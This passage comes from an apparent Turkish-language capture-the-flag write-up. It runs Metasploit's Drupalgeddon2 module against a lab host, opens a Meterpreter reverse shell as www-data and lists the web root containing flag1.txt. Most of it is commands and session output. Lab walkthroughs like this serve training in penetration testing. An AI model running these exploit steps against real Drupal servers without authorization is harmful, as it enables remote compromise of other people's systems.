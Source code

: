 ```bash
   3  exploit/unix/webapp/drupal_coder_exec          2016-07-13       excellent  Yes    Drupal CODER Module Remote Command Execution
   4  exploit/unix/webapp/drupal_drupalgeddon2       2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
   5  exploit/unix/webapp/drupal_restws_exec         2016-07-13       excellent  Yes    Drupal RESTWS Module Remote PHP Code Execution
   6  exploit/unix/webapp/drupal_restws_unserialize  2019-02-20       normal     Yes    Drupal RESTful Web Services unserialize() RCE
   7  exploit/unix/webapp/php_xmlrpc_eval            2005-06-29       excellent  Yes    PHP XML-RPC Arbitrary Code Execution
```
```bash
options #exploit kullanımı için gerekli parametler görüntülenir
set paramatre değer #parametreye değer set edilir.
exploit/run  #exploit çalıştırılır.
```
Dördüncü sırada yer alan exploit seçilir gerekli parametler ayarlamalar yapıldıktından sonra exploit/run komutu ile çalıştırılır ve meterpreter oturumu elde edilir. 

```bash
msf5 > use 4
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS 192.168.56.107
RHOSTS => 192.168.56.107
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > exploit

[*] Started reverse TCP handler on 192.168.56.105:4444 
[*] Sending stage (38288 bytes) to 192.168.56.107
[*] Meterpreter session 1 opened (192.168.56.105:4444 -> 192.168.56.107:40386) at 2020-09-24 12:16:50 -0500
```
```bash
meterpreter > getuid
Server username: www-data (33)

meterpreter > ls
Listing: /var/www
=================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  174    fil   2013-11-20 14:45:59 -0600  .gitignore
100644/rw-r--r--  5767   fil   2013-11-20 14:45:59 -0600  .htaccess
100644/rw-r--r--  1481   fil   2013-11-20 14:45:59 -0600  COPYRIGHT.txt
100644/rw-r--r--  1451   fil   2013-11-20 14:45:59 -0600  INSTALL.mysql.txt
100644/rw-r--r--  1874   fil   2013-11-20 14:45:59 -0600  INSTALL.pgsql.txt
100644/rw-r--r--  1298   fil   2013-11-20 14:45:59 -0600  INSTALL.sqlite.txt
100644/rw-r--r--  17861  fil   2013-11-20 14:45:59 -0600  INSTALL.txt
100755/rwxr-xr-x  18092  fil   2013-11-01 05:14:15 -0500  LICENSE.txt
100644/rw-r--r--  8191   fil   2013-11-20 14:45:59 -0600  MAINTAINERS.txt
100644/rw-r--r--  5376   fil   2013-11-20 14:45:59 -0600  README.txt
100644/rw-r--r--  9642   fil   2013-11-20 14:45:59 -0600  UPGRADE.txt
100644/rw-r--r--  6604   fil   2013-11-20 14:45:59 -0600  authorize.php
100644/rw-r--r--  720    fil   2013-11-20 14:45:59 -0600  cron.php
100644/rw-r--r--  52     fil   2019-02-19 07:20:46 -0600  flag1.txt
40755/rwxr-xr-x   4096   dir   2013-11-20 14:45:59 -0600  includes
100644/rw-r--r--  529    fil   2013-11-20 14:45:59 -0600  index.php
100644/rw-r--r--  703    fil   2013-11-20 14:45:59 -0600  install.php
40755/rwxr-xr-x   4096   dir   2013-11-20 14:45:59 -0600  misc
40755/rwxr-xr-x   4096   dir   2013-11-20 14:45:59 -0600  modules
40755/rwxr-xr-x   4096   dir   2013-11-20 14:45:59 -0600  profiles
100644/rw-r--r--  1561   fil   2013-11-20 14:45:59 -0600  robots.txt
40755/rwxr-xr-x   4096   dir   2013-11-20 14:45:59 -0600  scripts
40755/rwxr-xr-x   4096   dir   2013-11-20 14:45:59 -0600  sites
40755/rwxr-xr-x   4096   dir   2013-11-20 14:45:59 -0600  themes
```